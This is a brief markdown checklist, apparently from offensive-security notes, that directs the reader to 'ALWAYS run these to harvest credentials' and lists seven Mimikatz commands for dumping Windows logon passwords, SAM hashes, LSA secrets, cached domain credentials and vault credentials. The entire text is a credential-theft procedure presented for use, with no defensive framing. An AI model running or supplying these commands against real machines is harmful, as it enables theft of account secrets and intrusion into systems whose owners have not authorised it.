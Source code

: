 
ALWAYS run these to harvest credentials:

- [ ] sekurlsa::logonpasswords
- [ ] lsadump::sam
- [ ] lsadump::lsa /inject
- [ ] lsadump::cache
- [ ] lsadump::secrets
- [ ] vault::creds
- [ ] vault::list
